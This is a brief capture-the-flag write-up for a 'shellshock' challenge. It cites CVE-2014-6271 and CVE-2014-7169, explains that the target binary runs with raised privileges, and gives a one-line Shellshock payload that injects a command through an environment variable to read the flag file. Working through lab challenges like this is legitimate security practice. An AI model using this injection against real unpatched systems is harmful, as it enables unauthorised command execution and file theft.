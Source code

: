 # shellshock
## CVE and Linux permission
### knowledge which will be used in this challenge:
- CVE-2014-6271 & CVE-2014-7169 [Click here to know more](www.freebuf.com/articles/system/45390.html)
- Functiongetresuid used in shellshock.c means that the executable file shellshock has superior authority.
### exploit it!
Type the following command:
>     env var='() { :;}; cat flag' ./shellshock 